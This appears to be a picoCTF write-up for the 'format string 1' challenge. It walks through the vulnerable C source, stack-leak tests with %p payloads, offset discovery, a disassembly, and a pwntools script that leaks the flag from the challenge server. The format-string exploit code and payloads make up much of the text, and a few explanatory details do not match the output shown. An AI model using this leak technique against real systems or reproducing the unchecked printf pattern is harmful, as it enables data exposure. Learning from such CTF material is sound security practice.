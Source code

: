 # picoCTF format string 1

### Source code

```c
#include <stdio.h>

int main() {
  char buf[1024];
  char secret1[64];
  char flag[64];
  char secret2[64];

  // Read in first secret menu item
  FILE *fd = fopen("secret-menu-item-1.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-1.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret1, 64, fd);
  // Read in the flag
  fd = fopen("flag.txt", "r");
  if (fd == NULL){
    printf("'flag.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(flag, 64, fd);
  // Read in second secret menu item
  fd = fopen("secret-menu-item-2.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-2.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret2, 64, fd);

  printf("Give me your order and I'll read it back to you:\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your order: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  printf("Bye!\n");
  fflush(stdout);

  return 0;
}
```

We read 64 bytes from `secret-menu-item-1.txt` and store it in secret1, 64 bytes from `secret-menu-item-2.txt` and store it in secret2, 64 bytes from `flag.txt` and store it in flag, and finally 1024 bytes from user using scanf and store it in buf.

From this we can see our format string vulnerability.

```c
printf(buf);
```

<br>

#### Checking for memory protections

```bash
$ checksec --file=format-string-1

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable    FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   41 Symbols        No    0               2              format-string-1
```

<br>

#### Checking for memory leaks

```bash
$ ./format-string-1

Give me your order and I'll read it back to you:
%p %p %p %p %p
Here's your order: 0x7ffe7f072710
Bye!
```

There does seem to be a format string vulnerability, but it only leaks a single address? wierd. Lets try that again with something other than spaces for delimiters.

```bash
$ ./format-string-1

Give me your order and I'll read it back to you:
%p,%p,%p,%p
Here's your order: 0x7fffffffd7f0,(nil),(nil),0xa
Bye!
```
It works!! so it seems like because we're using scanf for input it is splitting our input based on spaces. Now we can just leak addresses as such

```python
def get_leaked_addr(n: int=100):
    p = process("./format-string-1")
    p.sendline(b"%p|"*n)
    leaked_addr = p.recvall().decode('latin-1').split(":")[-1].strip()
    leaked_addr = leaked_addr.split("|")[: -1]
    return leaked_addr

print(get_leaked_addr(5))
```
```bash
$ ./exploit.py          

Enter the no. of addresses to leak (default = 100): 5
['0x7fffffffd7f0', '(nil)', '(nil)', '0xa', '0x400']
```

Now we can calculate the offset at which our buffer is placed.
```bash
$ python3 -c 'print("AAAAAAAA"+"%p,"*50)' | ./format-string-1

Give me your order and I'll read it back to you:
Here's your order: AAAAAAAA0x7fffffffd7f0,(nil),(nil),0xa,0x400,0x67756720656b6166,0xa6167616775,0x7ffff7fc06c0,0x3,0x7fff00000000,0x7ffff7dc7938,0x7fffffffda20,0x7ffff7ffe680,0x6664736166647361,0x7fffffff000a,0xffffda74,(nil),(nil),0x7fffffffdb90,0x7ffff7ffe680,0x7ffff7ff285d,0x7567206c61796972,0xa616761677567,0x3de00ec7,0x7ffff7fd15dc,0x1,0x7fffffffdb90,(nil),(nil),0x4141414141414141,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x2c70252c7025,0x7fffffffdb58,
Bye!
```

It looks like our buffer is placed at the 30th position in the leaks, we can confirm this by
```bash
$ ./format-string-1

Give me your order and I'll read it back to you:
AAAAAAAA%30$p
Here's your order: AAAAAAAA0x4141414141414141
Bye!
```

#### Determining variables

Now we just have to figure out what to write and where to write it. Taking a look at the disassembly of the main function. we can see the addresses of some of our variables

```asm
pwndbg> disassemble main
Dump of assembler code for function main:
   0x00000000004011f6 <+0>:     endbr64
   0x00000000004011fa <+4>:     push   rbp
   0x00000000004011fb <+5>:     mov    rbp,rsp
   0x00000000004011fe <+8>:     sub    rsp,0x4d0
   0x0000000000401205 <+15>:    mov    esi,0x402008
   0x000000000040120a <+20>:    mov    edi,0x40200a
   0x000000000040120f <+25>:    call   0x4010f0 <fopen@plt>
   0x0000000000401214 <+30>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000000000401218 <+34>:    cmp    QWORD PTR [rbp-0x8],0x0
   0x000000000040121d <+39>:    jne    0x401233 <main+61>
   0x000000000040121f <+41>:    mov    edi,0x402028
   0x0000000000401224 <+46>:    call   0x4010b0 <puts@plt>
   0x0000000000401229 <+51>:    mov    eax,0x1
   0x000000000040122e <+56>:    jmp    0x401363 <main+365>
   0x0000000000401233 <+61>:    mov    rdx,QWORD PTR [rbp-0x8]
   0x0000000000401237 <+65>:    lea    rax,[rbp-0x450]
   0x000000000040123e <+72>:    mov    esi,0x40
   0x0000000000401243 <+77>:    mov    rdi,rax
   0x0000000000401246 <+80>:    call   0x4010d0 <fgets@plt>
   0x000000000040124b <+85>:    mov    esi,0x402008
   0x0000000000401250 <+90>:    mov    edi,0x40205b
   0x0000000000401255 <+95>:    call   0x4010f0 <fopen@plt>
   0x000000000040125a <+100>:   mov    QWORD PTR [rbp-0x8],rax
   0x000000000040125e <+104>:   cmp    QWORD PTR [rbp-0x8],0x0
   0x0000000000401263 <+109>:   jne    0x401279 <main+131>
   0x0000000000401265 <+111>:   mov    edi,0x402068
   0x000000000040126a <+116>:   call   0x4010b0 <puts@plt>
   0x000000000040126f <+121>:   mov    eax,0x1
   0x0000000000401274 <+126>:   jmp    0x401363 <main+365>
   0x0000000000401279 <+131>:   mov    rdx,QWORD PTR [rbp-0x8]
   0x000000000040127d <+135>:   lea    rax,[rbp-0x490]
   0x0000000000401284 <+142>:   mov    esi,0x40
   0x0000000000401289 <+147>:   mov    rdi,rax
   0x000000000040128c <+150>:   call   0x4010d0 <fgets@plt>
   0x0000000000401291 <+155>:   mov    esi,0x402008
   0x0000000000401296 <+160>:   mov    edi,0x40208d
   0x000000000040129b <+165>:   call   0x4010f0 <fopen@plt>
   0x00000000004012a0 <+170>:   mov    QWORD PTR [rbp-0x8],rax
   0x00000000004012a4 <+174>:   cmp    QWORD PTR [rbp-0x8],0x0
   0x00000000004012a9 <+179>:   jne    0x4012bf <main+201>
   0x00000000004012ab <+181>:   mov    edi,0x4020a8
   0x00000000004012b0 <+186>:   call   0x4010b0 <puts@plt>
   0x00000000004012b5 <+191>:   mov    eax,0x1
   0x00000000004012ba <+196>:   jmp    0x401363 <main+365>
   0x00000000004012bf <+201>:   mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000004012c3 <+205>:   lea    rax,[rbp-0x4d0]
   0x00000000004012ca <+212>:   mov    esi,0x40
   0x00000000004012cf <+217>:   mov    rdi,rax
   0x00000000004012d2 <+220>:   call   0x4010d0 <fgets@plt>
   0x00000000004012d7 <+225>:   mov    edi,0x4020e0
   0x00000000004012dc <+230>:   call   0x4010b0 <puts@plt>
   0x00000000004012e1 <+235>:   mov    rax,QWORD PTR [rip+0x2d78]        # 0x404060 <stdout@GLIBC_2.2.5>
   0x00000000004012e8 <+242>:   mov    rdi,rax
   0x00000000004012eb <+245>:   call   0x4010e0 <fflush@plt>
   0x00000000004012f0 <+250>:   lea    rax,[rbp-0x410]
   0x00000000004012f7 <+257>:   mov    rsi,rax
   0x00000000004012fa <+260>:   mov    edi,0x402111
   0x00000000004012ff <+265>:   mov    eax,0x0
   0x0000000000401304 <+270>:   call   0x401100 <__isoc99_scanf@plt>
   0x0000000000401309 <+275>:   mov    edi,0x402118
   0x000000000040130e <+280>:   mov    eax,0x0
   0x0000000000401313 <+285>:   call   0x4010c0 <printf@plt>
   0x0000000000401318 <+290>:   lea    rax,[rbp-0x410]
   0x000000000040131f <+297>:   mov    rdi,rax
   0x0000000000401322 <+300>:   mov    eax,0x0
   0x0000000000401327 <+305>:   call   0x4010c0 <printf@plt>
   0x000000000040132c <+310>:   mov    edi,0xa
   0x0000000000401331 <+315>:   call   0x4010a0 <putchar@plt>
   0x0000000000401336 <+320>:   mov    rax,QWORD PTR [rip+0x2d23]        # 0x404060 <stdout@GLIBC_2.2.5>
   0x000000000040133d <+327>:   mov    rdi,rax
   0x0000000000401340 <+330>:   call   0x4010e0 <fflush@plt>
   0x0000000000401345 <+335>:   mov    edi,0x40212c
   0x000000000040134a <+340>:   call   0x4010b0 <puts@plt>
   0x000000000040134f <+345>:   mov    rax,QWORD PTR [rip+0x2d0a]        # 0x404060 <stdout@GLIBC_2.2.5>
   0x0000000000401356 <+352>:   mov    rdi,rax
   0x0000000000401359 <+355>:   call   0x4010e0 <fflush@plt>
   0x000000000040135e <+360>:   mov    eax,0x0
   0x0000000000401363 <+365>:   leave
   0x0000000000401364 <+366>:   ret

```

On taking a look again at the leaked values we can see that the 13th address looks very odd. on converting that to ascii we can see its `Bye!\n`. So its leaking strings from the stack. Using this we can develop our exploit to convert all the values to ascii till we find the flag.

```python
def exploit(offset: int):
    # Set output level (critical, error, warning, info, debug)
    context.update(log_level = "warning")

    flag = b''
    keep_going = True

    while keep_going:
        io = remote("mimas.picoctf.net", 55670)    
        io.sendlineafter(b"Give me your order and I'll read it back to you:\n", b"%"+str(offset).encode() + b"$lx")
        out = io.recvlineS().split(':')[1].strip()
        try:
            res_le = p64(int(out, 16), endianness="little")
            flag += res_le
            if (b'}' in res_le):
                keep_going = False
        except Exception:
            pass
        io.recvall()
        io.close()
        offset += 1

    print(flag)

```

using this we can see our flag.

```bash
$ ./exploit.py          

Enter the no. of addresses to leak (default = 40): 
picoCTF{
14
b'picoCTF{----redacted----}\x00'

```
